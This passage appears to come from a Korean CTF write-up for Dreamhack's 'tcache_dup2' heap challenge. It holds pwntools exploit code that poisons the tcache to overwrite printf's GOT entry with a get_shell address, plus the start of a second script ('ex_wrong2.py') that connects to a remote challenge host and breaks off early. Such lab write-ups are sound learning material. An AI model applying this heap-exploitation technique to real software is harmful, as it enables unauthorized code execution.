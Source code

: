 ```py
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> printf@got
# tc_idx = 1
# chunk : ptr[0]
printf_got = e.got['printf']
modify(0, 0x10, p64(printf_got))


# tcache[0x20] : printf@got
# tc_idx = 0
# chunk : ptr[1]
create(0x20, b'a')


# 여기서 (tc_idx = 0)이기 때문에, printf@got가 malloc되지 않음
# tcache[0x20] : printf@got
# tc_idx = 0
# chunk : ptr[2]
get_shell = e.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

<br>

## **ex_wrong2.py**

```py
from pwn import *

p = remote('host3.dreamhack.games', 17171)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')
```